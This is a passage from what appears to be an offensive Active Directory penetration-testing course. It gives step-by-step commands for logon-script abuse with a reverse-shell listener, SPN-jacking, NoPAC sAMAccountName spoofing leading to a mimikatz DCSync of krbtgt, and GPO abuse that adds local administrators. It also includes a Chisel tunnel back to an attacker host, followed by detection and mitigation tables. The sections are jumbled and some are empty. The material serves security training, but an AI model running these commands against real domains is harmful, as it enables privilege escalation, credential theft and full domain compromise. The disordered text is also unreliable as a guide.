bloodyAD --host "[target-ip]" -d "[domain]" -u "[user]" -p '[password]' set object [target-user] scriptPath -v '[scripts-path]\logonScript.bat'
# Verify with bloodyAD
bloodyAD --host "[target-ip]" -d "[domain]" -u "[user]" -p '[password]' get object [target-user] --attr scriptPathStep 4: Start listener and wait for logon
nc -nvlp 9001
# When eric logs on, the reverse shell triggers
# whoami -> [domain-short]\[target-user]Tip: Instead of a reverse shell, consider abusing additional DACL rights the target user may have. For example, if Eric has User-Force-Change-Password over a high-value account, use the logon script to reset that account's password rather than obtaining a shell.
9.2.6 Abusing Write scriptPath from Windows
Step 1: Enumerate NETLOGON permissions
# List NETLOGON folders
ls $env:LOGONSERVER\NETLOGON
# Check permissions
icacls $env:LOGONSERVER\NETLOGON\[scripts-path]
# Look for: [DOMAIN]\[user]:(OI)(CI)(RX,W)Step 3: Update scriptPath using PowerView
Import-Module .\PowerView.ps1
Set-DomainObject eric -Set @{'scriptPath'='[scripts-path]\logonScript.bat'}
# Verify
Get-DomainObject eric -Properties scriptPathMethodology
-
Get-DomainObjectAcl -Identity <target> -ResolveGUIDs | ?{$_.ObjectAceType -eq "Script-Path" -and $_.ActiveDirectoryRights -match "WriteProperty"} -
smbcacls //DC_IP/NETLOGON /FolderName -U user%'password' -
smbclient //DC_IP/NETLOGON --directory TargetFolder -U user%'password' -c "put payload.bat" -
bloodyAD --host DC_IP -d domain -u user -p 'pass' set object target scriptPath -v 'Folder\payload.bat' -
nc -nvlp 9001
Remediation
9.3 SPN Jacking
SPN Jacking is an alternative method to abuse WriteSPN rights. Unlike traditional WriteSPN abuse (Kerberoasting; setting an SPN on a user account and cracking the TGS), SPN Jacking combines DACL abuse with Constrained Delegation manipulation to achieve impersonation without password cracking. This is described in the blog post "SPN-jacking: An Edge Case in WriteSPN Abuse."
Root cause: When an account has Constrained Delegation configured (via msDS-AllowedToDelegateTo), it can request service tickets for the SPNs listed in that attribute via the S4U protocol. The service name in a Kerberos ticket is not encrypted, so it can be modified after issuance using tools like Rubeus tgssub. By manipulating which computer account "owns" a given SPN, an attacker can redirect the delegation target to a different machine.
Two variants exist:
| Variant | Description | When to Use |
|---|---|---|
| Ghost SPN-Jacking | Targets orphaned SPNs; SPNs in msDS-AllowedToDelegateTo whose original computer/service account was deleted or renamed | When delegation references non-existent accounts |
| Live SPN-Jacking | Targets SPNs currently in use; requires removing the SPN from the live account and adding it to the target | When you have WriteSPN on both the source and target computer accounts |
9.3.1 Ghost SPN-Jacking
Ghost SPN-Jacking targets scenarios where an SPN referenced in Constrained Delegation no longer resolves to an active account. These orphaned SPNs arise when accounts are deleted, renamed, or custom service classes are removed, but the delegation configuration is not updated.
Attack flow (Windows):
# 1. Confirm WriteSPN rights on target machine
Import-Module .\PowerView.ps1
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $(ConvertTo-SID [user])}
# Look for: WriteProperty on Validated-SPN (f3a64788-5306-11d1-a9c5-0000f80367c1)
# 2. Confirm the controlled machine has Constrained Delegation
Get-DomainComputer -TrustedToAuth | select name, msds-allowedtodelegateto
# 3. Search for orphaned SPNs using Get-ConstrainedDelegation wrapper
Import-Module .\Get-ConstrainedDelegation.ps1
Get-ConstrainedDelegation -CheckOrphaned
# Output shows SPNs where the target computer no longer exists
# 4. Note the current SPNs on the target machine (for later restoration)
Get-DomainComputer WEB01 | Select-Object -ExpandProperty serviceprincipalname
# 5. Assign the orphaned SPN to the target machine
Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='dhcp/DATABASE01'} -Verbose
# 6. Perform S4U attack using the delegating account
.\Rubeus.exe s4u /domain:[domain] /user:[target-host]$ /rc4:ef3d150ee77eb9000001236c52bd2793 /impersonateuser:administrator /msdsspn:"dhcp/DATABASE01" /nowrap
# 7. Substitute service name (ticket service name is NOT encrypted)
.\Rubeus.exe tgssub /ticket:<BASE64_TICKET> /altservice:cifs/WEB01 /nowrap
# 8. Import ticket and access target
.\Rubeus.exe ptt /ticket:<MODIFIED_TICKET>
ls \\web01\c$Why tgssub works: In Kerberos, the service name (sname) in the ticket is not part of the encrypted portion. The encrypted part uses the service account's key (the computer account that actually has the SPN). Since we moved the SPN to WEB01, the ticket is encrypted with WEB01's key. We can freely change the service name from dhcp/DATABASE01 to cifs/WEB01 or HTTP/WEB01 because the KDC does not verify the service name matches what was requested.
9.3.2 Live SPN-Jacking
Live SPN-Jacking targets SPNs currently in use. The key challenge is that AD prevents duplicate SPNs; assigning an SPN already associated with one account to another results in a constraint violation. The solution: first remove the SPN from the original account, then add it to the target.
Attack flow (Windows):
# 1. Attempting direct assignment fails (duplicate SPN)
Set-DomainObject -Identity WEB01$ -Set @{serviceprincipalname='dmserver/DBSRV003'} -Verbose
# ERROR: "A constraint violation occurred."
# 2. Note original SPNs (for restoration)
Get-DomainComputer DBSRV003 -Properties 'serviceprincipalname'
# 3. Clear SPNs from the live account
Set-DomainObject -Identity DBSRV003 -Clear 'serviceprincipalname' -Verbose
# 4. Add the freed SPN to the target
Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='dmserver/DBSRV003'} -Verbose
# 5. Perform S4U attack
.\Rubeus.exe s4u /domain:[domain] /user:[target-host]$ /rc4:ef3d150ee77eb9000001236c52bd2793 /impersonateuser:administrator /msdsspn:"dmserver/DBSRV003" /nowrap
# 6. Substitute service name (e.g., HTTP/WEB01 for PowerShell Remoting)
.\Rubeus.exe tgssub /ticket:<BASE64_TICKET> /altservice:HTTP/WEB01 /nowrap
# 7. Import ticket
.\Rubeus.exe ptt /ticket:<MODIFIED_TICKET>
# 8. Restore original SPNs (good practice -- doesn't affect our existing ticket)
Set-DomainObject -Identity DBSRV003 -Set @{serviceprincipalname='WSMAN/DBSRV003','WSMAN/DBSRV003.[domain]','TERMSRV/DBSRV003','TERMSRV/DBSRV003.[domain]','RestrictedKrbHost/DBSRV003','HOST/DBSRV003','RestrictedKrbHost/DBSRV003.[domain]','HOST/DBSRV003.[domain]'} -Verbose
# 9. Connect via PowerShell Remoting
Enter-PSSession -ComputerName [web-host]9.3.3 Live SPN-Jacking from Linux
From Linux, the attack uses addspn.py (from Krbrelayx), getST.py, and tgssub.py (from ShutdownRepo's Impacket fork). Network access to the internal network may require tunneling (e.g., Chisel).
# Set up SOCKS proxy with Chisel (if needed)
# Linux: ./chisel server --reverse
# Windows ([target-host]): .\chisel.exe client ATTACKER_IP:8080 R:socks
# 1. Identify delegation
proxychains4 -q findDelegation.py -target-domain [domain] -dc-ip [dc-ip] -dc-host dc02 [domain]/[user]:[password]
# 2. Clone addspn.py tool
git clone https://github.com/dirkjanm/krbrelayx
# 3. Clear SPNs from source account (save originals first!)
proxychains4 -q python3 addspn.py [dc-ip] -u '[domain]\[user]' -p [password] --clear -t 'DBSRV003$' -dc-ip [dc-ip]
# 4. Add SPN to target
proxychains4 -q python3 addspn.py [dc-ip] -u '[domain]\[user]' -p [password] --spn 'dmserver/DBSRV003' -t 'WEB01$' -dc-ip [dc-ip]
# 5. Request S4U service ticket
proxychains4 -q getST.py -spn 'dmserver/DBSRV003' -impersonate Administrator '[domain]/[target-host]$' -hashes :[ntlm-hash] -dc-ip [dc-ip]
# 6. Modify ticket service name with tgssub.py
git clone -b tgssub https://github.com/ShutdownRepo/impacket/ tgssub
proxychains4 -q python3 tgssub/examples/tgssub.py -in Administrator@dmserver_DBSRV003@[domain].ccache -altservice "cifs/WEB01" -out newticket.ccache
# 7. Use the ticket
KRB5CCNAME=newticket.ccache proxychains4 -q smbexec.py -k -no-pass WEB01
# Alternative: Latest getST.py supports -altservice directly
proxychains4 -q getST.py -spn 'dmserver/DBSRV003' -impersonate Administrator '[domain]/[target-host]$' -hashes :[ntlm-hash] -dc-ip [dc-ip] -altservice "cifs/WEB01.[domain]"
# 8. Restore SPNs
for spn in $(cat DBSRV003spns.txt); do proxychains4 -q python3 addspn.py [dc-ip] -u '[domain]\[user]' -p [password] -t 'DBSRV003$' --spn $spn; doneMethodology
-
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ?{$_.ObjectAceType -eq "Validated-SPN" -and $_.ActiveDirectoryRights -match "WriteProperty"} # BloodHound Cypher: MATCH p=(n:User)-[r1:WriteSPN*1..]->(c:Computer) RETURN p -
Get-DomainComputer -TrustedToAuth | select name, msds-allowedtodelegateto Import-Module .\Get-ConstrainedDelegation.ps1 Get-ConstrainedDelegation -CheckOrphaned -
# Ghost: Set-DomainObject -Identity TARGET -Set @{serviceprincipalname='orphaned/SPN'} # Live: Set-DomainObject -Identity SOURCE -Clear 'serviceprincipalname' # Set-DomainObject -Identity TARGET -Set @{serviceprincipalname='live/SPN'} -
.\Rubeus.exe s4u /domain:domain /user:DELEGATING$ /rc4:HASH /impersonateuser:administrator /msdsspn:"service/host" /nowrap -
.\Rubeus.exe tgssub /ticket:<TICKET> /altservice:cifs/TARGET /nowrap -
.\Rubeus.exe ptt /ticket:<MODIFIED_TICKET> ls \\target\c$ -
Set-DomainObject -Identity SOURCE -Set @{serviceprincipalname='original/SPN1','original/SPN2'}
Remediation
9.4 sAMAccountName Spoofing (NoPAC)
The NoPAC attack exploits two vulnerabilities, CVE-2021-42278 and CVE-2021-42287, to enable a domain user to impersonate any privileged account, including domain controllers.
9.4.1 Attack Mechanism
CVE-2021-42278 (sAMAccountName validation bypass): Windows AD does not enforce that computer account names end with a $ sign. With sufficient permissions on a machine account (or the ability to create one via MachineAccountQuota), an attacker can change the sAMAccountName to match a domain controller's name without the trailing $.
CVE-2021-42287 (KDC ticket confusion): When a Service Ticket is requested for a non-existent account, the KDC appends $ and searches again. The attack chain:
9.4.2 Understanding the Privilege Attribute Certificate (PAC)
The PAC is a data structure in Kerberos tickets containing identity and group membership information used for access control. It includes:
- User SID: Unique identifier for the user
- Group SIDs: Identifiers for group memberships
- User Rights: Privilege information
- Logon Information: Session details (logon time, etc.)
The NoPAC name reflects that a vulnerable DC returns a TGT without a PAC, which is the scan indicator; PAC-less TGTs are significantly smaller (typically under 1000 bytes vs. 1500+ with PAC).
9.4.3 Enumeration from Windows
# Scan for vulnerability (compare TGT sizes with/without PAC)
.\noPac.exe scan -domain [domain] -user [user] -pass [password]
# Vulnerable if: "Got TGT from DC. Ticket size: 567" (small = no PAC)
# Check MachineAccountQuota (default: 10)
(Get-DomainObject -SearchScope Base)."ms-ds-machineaccountquota"
# Check how many machines a user has already created
Import-Module .\PowerView.ps1
$computers = Get-DomainComputer -Filter '(ms-DS-CreatorSID=*)' -Properties name,ms-ds-creatorsid
$userComputers = $computers | where { (New-Object System.Security.Principal.SecurityIdentifier($_."ms-ds-creatorsid",0)).Value -eq (ConvertTo-SID [user]) }
$userComputers.Count9.4.4 Enumeration from Linux
A vulnerable NoPAC scan (TGT returned without PAC) does not guarantee sAMAccountName Spoofing will work. The attack also requires that the patch for CVE-2021-42278 is not applied (allowing sAMAccountName rename to the DC name).
# Using noPac scanner
git clone https://github.com/Ridter/noPac
python3 noPac/scanner.py -dc-ip [target-ip] [domain]/[user]:[password] -use-ldap
# Output includes: MachineAccountQuota, TGT sizes with/without PAC
# Using netexec
netexec smb DC_IP -u user -p pass -M nopac9.4.5 Abusing sAMAccountName Spoofing from Windows
Why S4U2self works here: The TGT was issued for DC03 (the spoofed sAMAccountName). After reverting the name, when we perform S4U2self, the KDC looks up DC03, fails, appends $, finds DC03$ (the real DC), and issues a service ticket with the DC's PAC and group memberships. The /altservice flag lets us target any service (LDAP for DCSync, CIFS for file access, etc.).
# Step 1: Create a new computer account
Import-Module .\Powermad.ps1
$password = ConvertTo-SecureString '[password]' -AsPlainText -Force
New-MachineAccount -MachineAccount "TEST01" -Password $($password) -Domain [domain] -DomainController [dc-ip] -Verbose
# Step 2: Clear SPNs from the new account (prevents SPN conflicts)
Import-Module .\PowerView.ps1
Set-DomainObject -Identity 'TEST01$' -Clear 'serviceprincipalname' -Domain [domain] -DomainController [dc-ip] -Verbose
# Step 3: Change sAMAccountName to match DC (without $)
Set-MachineAccountAttribute -MachineAccount "TEST01" -Value "[foreign-dc]" -Attribute samaccountname -Domain [domain] -DomainController [dc-ip] -Verbose
# Step 4: Request TGT using the spoofed name (with machine account password)
.\Rubeus.exe asktgt /user:[foreign-dc] /password:"[password]" /domain:[domain] /dc:[dc-ip] /nowrap
# Step 5: Revert sAMAccountName to original value
Set-MachineAccountAttribute -MachineAccount "TEST01" -Value "TEST01" -Attribute samaccountname -Domain [domain] -DomainController [dc-ip] -Verbose
# Step 6: Request S4U2self service ticket impersonating Administrator
# Use /altservice to target LDAP for DCSync
.\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:"ldap/[foreign-dc].[domain]" /dc:[dc-ip] /ptt /ticket:<BASE64_TGT>
# Step 7: Perform DCSync with the imported ticket
.\mimikatz.exe "lsadump::dcsync /domain:[domain] /kdc:[foreign-dc].[domain] /user:krbtgt" exit9.4.6 Abusing sAMAccountName Spoofing from Linux
On Linux, instead of creating a machine account, we can use an existing user account if we have GenericAll or GenericWrite rights over it.
# Install bloodyAD
git clone https://github.com/CravateRouge/bloodyAD
cd bloodyAD/
python3 -m venv .bloodyAD; source .bloodyAD/bin/activate
python3 -m pip install .
# Check target account's current SPNs
python3 bloodyAD.py -d [domain] -u [user] -p [password] --host [target-ip] get object felipe | grep "servicePrincipalName\|sAMAccountName"
# Clear SPNs from target account
python3 bloodyAD.py -d [domain] -u [user] -p [password] --host [target-ip] set object felipe servicePrincipalName
# Change sAMAccountName to DC name
python3 bloodyAD.py -d [domain] -u [user] -p [password] --host [target-ip] set object felipe sAMAccountName -v [foreign-dc]
# Request TGT using felipe's password but the spoofed name
getTGT.py [domain]/[foreign-dc]:Hacker0039 -dc-ip [target-ip]
# Revert sAMAccountName (use [foreign-dc] as current name or DN)
python3 bloodyAD.py -d [domain] -u [user] -p [password] --host [target-ip] set object [foreign-dc] sAMAccountName -v felipe
# Or use distinguished name:
python3 bloodyAD.py -d [domain] -u [user] -p [password] --host [target-ip] set object "CN=felipe,CN=Users,DC=[domain-short],DC=local" sAMAccountName -v felipe
# Request S4U2self service ticket with CIFS altservice
KRB5CCNAME=[foreign-dc].ccache getST.py [domain]/[foreign-dc] -self -impersonate 'Administrator' -altservice 'cifs/[foreign-dc].[domain]' -k -no-pass -dc-ip [target-ip]
# Use the ticket for remote execution
KRB5CCNAME=Administrator@cifs_dc03.[domain]@[domain].ccache psexec.py [foreign-dc].[domain] -k -no-passMethodology
-
python3 noPac/scanner.py -dc-ip DC_IP domain/user:pass -use-ldap # Windows: .\noPac.exe scan -domain domain -user user -pass pass -
(Get-DomainObject -SearchScope Base)."ms-ds-machineaccountquota" -
New-MachineAccount -MachineAccount "TEST01" -Password $(ConvertTo-SecureString '[password]' -AsPlainText -Force) -
Set-DomainObject -Identity 'TEST01$' -Clear 'serviceprincipalname' -
Set-MachineAccountAttribute -MachineAccount "TEST01" -Value "[foreign-dc]" -Attribute samaccountname -
.\Rubeus.exe asktgt /user:[foreign-dc] /password:"[password]" /domain:domain /dc:DC_IP /nowrap -
Set-MachineAccountAttribute -MachineAccount "TEST01" -Value "TEST01" -Attribute samaccountname -
.\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:"ldap/[foreign-dc].domain" /dc:DC_IP /ptt /ticket:<TGT> -
.\mimikatz.exe "lsadump::dcsync /domain:domain /user:krbtgt" exit
Remediation
9.5 Introduction to Group Policy Objects (GPOs)
In large Windows environments, Group Policy Objects (GPOs) enable centralized management of security settings and configurations across all domain-joined computers. Rather than configuring each host individually, administrators use the Group Policy Management Console (GPMC) to define and apply policies.
9.5.1 GPO Structure
A GPO consists of two components:
| Component | Location | Purpose |
|---|---|---|
| Group Policy Container (GPC) | LDAP: CN={GUID},CN=Policies,CN=System,DC=domain,DC=local | Stores GPO metadata, configuration, and permissions as an AD object |
| Group Policy Template (GPT) | SYSVOL: \\DC\SysVol\domain\Policies\{GUID} | Contains the actual policy settings as files (INF, POL, scripts, etc.) |
GPOs are applied to users and computers through Organizational Units (OUs), domains, and sites. They are automatically refreshed on reboot, user logon, and periodically (every 90 minutes with a random offset of up to 30 minutes).
9.5.2 GPO Delegation
By default, only Domain Administrators and Enterprise Administrators can link GPOs. Administrators can delegate rights to other groups:
- Edit settings: Modify GPO properties and settings
- Edit settings, delete and modify security: Full modification, deletion, and delegation rights over the GPO
Delegation is configured in the Delegation tab of the GPO in GPMC (gpmc.msc).
9.5.3 GPO Links and Processing Order
A GPO exists in isolation until linked to a Site, Domain, or OU. GPOs are processed in a specific order; policies applied later take precedence when conflicts exist:
| Order | Level | Precedence |
|---|---|---|
| 1 (first) | Local GPO | Lowest |
| 2 | Site GPOs | Overrides Local |
| 3 | Domain GPOs | Overrides Site + Local |
| 4 (last) | OU GPOs | Highest (closest to user/computer) |
Within each level, multiple GPOs can have a Link Order specifying their hierarchy. Enforced GPOs override even OUs configured with Block Inheritance. The gplink attribute on AD objects stores GPO link information, with a link option value:
| Value | Meaning |
|---|---|
| 0 | GPO is enabled |
| 1 | GPO is disabled |
| 2 | GPO link is enforced |
| 3 | GPO link is enforced but GPO is disabled |
9.6 GPO Attacks
From an attacker's perspective, three types of GPO-related rights can be abused:
- Modify a GPO: If we compromise an account with delegated edit rights on a GPO, we can alter it to execute commands on all computers in the GPO's scope
- Link a GPO: Rights to link a GPO to a Site, Domain, or OU (alone insufficient; also need ability to modify or create a GPO)
- Create a GPO: Combined with linking rights, allows creating and deploying arbitrary policies
9.6.1 GPO Enumeration from Windows
List all GPOs:
Import-Module .\PowerView.ps1
# List all GPO names
Get-DomainGPO -Properties displayname
# Full GPO details (first GPO as example)
Get-DomainGPO | Select-Object -First 1Key GPO properties:
| Property | Description |
|---|---|
displayname | Human-readable name shown in GPMC |
name | Unique GUID identifier for the GPO |
gpcfilesyspath | SYSVOL path containing GPO data files |
objectguid | AD GUID for programmatic reference |
Enumerate where GPOs are linked:
# Domain-level links
Get-DomainObject -SearchScope Base -Properties gplink
# Site-level links
Get-DomainSite -Properties gplink
# OU-level links
Get-DomainOU | select name, gplink
# List computers in each OU
Get-DomainOU | foreach { $ou = $_.distinguishedname; Get-DomainComputer -SearchBase $ou -Properties dnshostname | select @{Name='OU';Expression={$ou}}, @{Name='FQDN';Expression={$_.dnshostname}} }Enumerate who can modify GPOs (non-admin users only):
# Find non-admin users with write rights on a GPO
Get-DomainGPO | Select-Object -First 1 | Get-DomainObjectAcl -ResolveGUIDs | where { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty|DeleteChild|DeleteTree|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$' }
# Resolve the SID
ConvertFrom-SID [sid]
# -> [DOMAIN]\Server Admins
# List group members
Get-DomainGroupMember "Server Admins" | select MemberNameEnumerate who can create GPOs:
# Search for CreateChild rights on the Policies container
$identity = (Get-DomainGPO).distinguishedname -replace 'CN=\{[A-F0-9-]+\},',''
Get-DomainObjectACL -Identity $identity -ResolveGUIDs | where { $_.ActiveDirectoryRights -contains "CreateChild" -and $_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$' } | foreach { ConvertFrom-SID $_.SecurityIdentifier }Enumerate who can link GPOs:
# Sites
Get-DomainSite -Properties distinguishedname | foreach { Get-DomainObjectAcl -SearchBase $_.distinguishedname -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List }
# Domain
Get-DomainObjectAcl -SearchScope Base -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List
# OUs
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-ListAutomated enumeration with Get-GPOEnumeration:
Import-Module .\Get-GPOEnumeration.ps1
Get-GPOEnumeration
# No parameters: finds GPOs modifiable by non-admin users and shows scope
# -ModifyGPOs: check permissions to modify GPOs
# -LinkGPOs: check permissions to link GPOs
# -CreateGPO: check permissions to create GPOs9.6.2 Creating and Linking GPOs
Alternative: PowerView3 includes New-GPOImmediateTask to add scheduled tasks through GPO modification.
9.6.4 GPO Enumeration from Linux
Use GPOwned for GPO enumeration from Linux.
# List GPOs
proxychains4 -q python3 GPOwned.py -u [user] -p [password] -d [domain] -dc-ip [dc-ip] -gpcmachine -listgpo
# Search for GPO links (Sites/Domains/OUs)
proxychains4 -q python3 GPOwned.py -u [user] -p [password] -d [domain] -dc-ip [dc-ip] -gpcmachine -listgplink
# Note: does not include Site links; query Sites DN separately
# Extract GPO GUIDs for dacledit
proxychains4 -q python3 GPOwned.py -u [user] -p [password] -d [domain] -dc-ip [dc-ip] -gpcmachine -listgpo | grep " Name:"
# Check rights to modify GPOs using dacledit
proxychains4 -q python3 examples/dacledit.py [domain]/[user]:[password] -target-dn "CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=[domain-short],DC=local" -dc-ip [dc-ip]
# Look for non-admin accounts with WriteProperties, CreateChild, etc.9.6.5 Abusing GPOs from Linux
Use pyGPOAbuse (partial Python implementation of SharpGPOAbuse).
# Install pyGPOAbuse
git clone https://github.com/Hackndo/pyGPOAbuse
cd pyGPOAbuse; python3 -m pip install -r requirements.txt
# Backup GPO before modification (good practice)
proxychains4 -q python3 GPOwned.py -u [user] -p [password] -d [domain] -dc-ip [dc-ip] -gpcmachine -backup backupgpo -name "{31B2F340-016D-11D2-945F-00C04FB984F9}"
# Abuse GPO: add local admin via scheduled task
proxychains4 -q python3 pygpoabuse.py [domain]/[user]:[password] -gpo-id EF1EBF2A-08F2-48E0-9D2E-67D9F2CE875D -command "net user plaintext [password]4 /add && net localgroup Administrators plaintext /add" -taskname "PT_LocalAdmin" -description "GPO test" -dc-ip [dc-ip] -vMethodology
-
Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | where { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$' } | foreach { ConvertFrom-SID $_.SecurityIdentifier } -
Get-DomainOU | select name, gplink Get-DomainSite -Properties gplink Get-DomainObject -SearchScope Base -Properties gplink -
Import-Module .\Get-GPOEnumeration.ps1 Get-GPOEnumeration -CreateGPO Get-GPOEnumeration -LinkGPOs -
Get-DomainOU | foreach { $ou = $_.distinguishedname; Get-DomainComputer -SearchBase $ou -Properties dnshostname | select @{Name='OU';Expression={$ou}}, @{Name='FQDN';Expression={$_.dnshostname}} } -
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <user> --GPOName "<GPO Name>" -
python3 GPOwned.py ... -backup backupgpo -name "{GUID}" python3 pygpoabuse.py domain/user:pass -gpo-id GUID -command "cmd" -taskname "name" -dc-ip DC_IP -
gpupdate /force -
dir \\target\c$ # or: Enter-PSSession -ComputerName target
Remediation
9.7 Detection and Mitigation Strategies
Each DACL abuse technique leaves distinct forensic artifacts in Windows event logs, directory service logs, and replication metadata. The mitigations below target the specific attack vectors covered in this module.
9.7.1 Shadow Credential Attacks
9.6.3 Abusing GPOs from Windows
SharpGPOAbuse is a .NET tool that exploits GPO edit rights to compromise objects controlled by the GPO.
| Option | Description |
|---|---|
--AddUserRights | Add rights to a user |
--AddLocalAdmin | Add a user to the local Administrators group |
--AddComputerScript | Add a computer startup script |
--AddUserScript | Configure a user logon script |
--AddComputerTask | Configure a computer immediate scheduled task |
--AddUserTask | Add an immediate scheduled task for a user |
# Add user to local Administrators group via GPO
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount [user] --GPOName "Default Security Policy - WKS"
# WARNING: --AddLocalAdmin overwrites existing Administrators if the GPO has higher priority
# Test in controlled environments first
# Verify the GPO template file was created
cat "\\[domain]\SysVol\[domain]\Policies\{EF1EBF2A-08F2-48E0-9D2E-67D9F2CE875D}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf"
# After GPO refresh, verify access to computers in the GPO scope
dir \\web01\c$| Event ID | What to Monitor | Indicator |
|---|---|---|
| 4768 | TGT requests (Kerberos authentication) | CertIssuerName field is non-empty; indicates PKINIT. Suspicious in environments not using WHfB or smart cards |
| 5136 | Directory object modifications | Changes to msDS-KeyCredentialLink attribute by non-standard accounts (not Azure AD Connect sync or ADFS service accounts) |
9.7.2 Logon Scripts
9.7.3 SPN Jacking
9.7.4 GPO Attacks
9.7.5 sAMAccountName Spoofing (NoPAC)
Methodology
-
# GPMC > Default Domain Controller Policy > Computer Configuration > Policies > # Windows Settings > Security Settings > Advanced Audit Policy Configuration > # DS Access > Audit Directory Service Changes = Success -
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4768,4742,4769,4781,5136,5137,5141} | Select-Object TimeCreated, Id, Message -
Get-ADUser -Filter {msDS-KeyCredentialLink -like "*"} -Properties msDS-KeyCredentialLink -
Set-ADDomain -Identity domain -Replace @{"ms-DS-MachineAccountQuota"="0"} -
Add-ADGroupMember -Identity "Protected Users" -Members "AdminAccount" -
icacls \\DC\NETLOGON /T -
Get-ADComputer -Filter {msDS-AllowedToDelegateTo -like "*"} -Properties msDS-AllowedToDelegateTo | select Name, msDS-AllowedToDelegateTo
Detection
# Verify GroupPolicy module is available
Get-Command -Module GroupPolicy
# Create a new GPO
New-GPO -Name TestGPO -Comment "This is a test GPO."
# Link GPO to an OU
New-GPLink -Name TestGPO -Target "OU=TestOU,DC=[domain-short],DC=local"Detection
$events = Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4768}
foreach ($event in $events) {
[xml]$xml = $event.ToXml()
function Get-XmlContent($xmlNode) {
if ($xmlNode -and $xmlNode.'#text') { return $xmlNode.'#text'.Trim() }
return $null
}
$certIssuerName = Get-XmlContent ($xml.Event.EventData.Data | Where-Object { $_.Name -eq 'CertIssuerName' })
if ($certIssuerName) {
$event | Format-List -Property TimeCreated, Id, Message
}
}Mitigation
Detection
Mitigation
Detection
| Event ID | What to Monitor | Indicator |
|---|---|---|
| 4742 | Computer account changes | ServicePrincipalName attribute changes that do not match the computer's DNS names |
| 4769 | Kerberos TGS requests | Transited Services attribute not blank (S4U2Proxy), or account and service information point to same account (S4U2Self) |
Mitigation
Detection
Enable auditing: GPMC > Default Domain Controller Policy > Computer Configuration > Policies > Windows Settings > Security Settings > Advanced Audit Policy Configuration > DS Access > Audit Directory Service Changes = Success.
| Event ID | Action | Significance |
|---|---|---|
| 5137 | Object created | New GPO creation; verify if authorized |
| 5136 | Object modified | GPO setting changes; check for unauthorized alterations |
| 5141 | Object deleted | GPO deletion; potential security control removal |
Mitigation
Detection
| Event ID | What to Monitor | Indicator |
|---|---|---|
| 4781 | Account name change | Computer account names modified to omit the standard trailing $, deviating from typical naming conventions |
Mitigation
9.7.6 Detection Summary Table
| Attack | Key Event IDs | Primary Indicators |
|---|---|---|
| Shadow Credentials | 4768, 5136 | Non-empty CertIssuerName in TGT requests; unauthorized msDS-KeyCredentialLink modifications |
| Logon Scripts | N/A (file system audit) | Unauthorized write access to NETLOGON files; plaintext credentials in scripts |
| SPN Jacking | 4742, 4769 | SPN changes not matching DNS; S4U requests with non-blank Transited Services |
| GPO Attacks | 5136, 5137, 5141 | Unauthorized GPO creation, modification, or deletion |
| sAMAccountName Spoofing | 4781 | Account renames removing trailing $ from computer accounts |
10. NTLM Relay Attacks
10.1 The NTLM Authentication Protocol
NT LAN Manager (NTLM / MS-NLMP) is a family of security protocols consisting of LM, NTLMv1, and NTLMv2, used by application protocols on Windows-based networks to authenticate remote users and optionally provide session security. NTLM is an embedded protocol — it has no network protocol stack layer of its own. Instead, any protocol with a defined network layer (such as SMB, HTTP(S), LDAP(S)) can carry NTLM authentication messages within its own traffic. For the application protocol using it, NTLMv2 provides three primary operations:
- Authentication — verifying the identity of the remote user.
- Message integrity (signing) — ensuring messages have not been tampered with in transit.
- Message confidentiality (sealing) — encrypting message content so adversaries cannot read it.
NTLM is a challenge-response protocol that uses nonces (pseudo-random numbers generated for one-time use) as a defensive mechanism against replay attacks. The protocol is best implemented as a function library called by application protocols rather than as a standalone network stack layer.


The Security Support Provider Interface (SSPI) is the foundation of Windows authentication — an API that allows connected applications to call one of several security providers to establish authenticated connections. A Security Support Provider (SSP) is a DLL responsible for implementing the SSPI by exposing one or more security packages. The NTLM SSP (located at %Windir%\System32\msv1_0.dll) is the binary messaging protocol utilized by SSPI to facilitate NTLM challenge-response authentication and negotiate options for integrity and confidentiality.
Key facts to remember about domain-joined NTLM authentication:
- The NTLM version used (NTLMv1 or NTLMv2) is configured out-of-band before authentication.
- The client and server/DC share a secret key (the user's password hash) via a secure mechanism before authentication.
- Neither plaintext credentials nor the shared secret key are ever sent over the wire.
10.1.1 Authentication Workflow
The NTLM authentication workflow for domain-joined computers involves the client and server exchanging three NTLM-specific messages (embedded within application protocol messages):
| Step | Message | Direction | Purpose |
|---|---|---|---|
| 1 | NEGOTIATE_MESSAGE (Type 1) | Client → Server | Client indicates desire to authenticate and specifies supported/requested NTLM options |
| 2 | CHALLENGE_MESSAGE (Type 2) | Server → Client | Server states supported NTLM options and challenges client to prove identity with a 64-bit nonce |
| 3 | AUTHENTICATE_MESSAGE (Type 3) | Client → Server | Client proves possession of the shared secret key (password hash) by responding to the challenge |
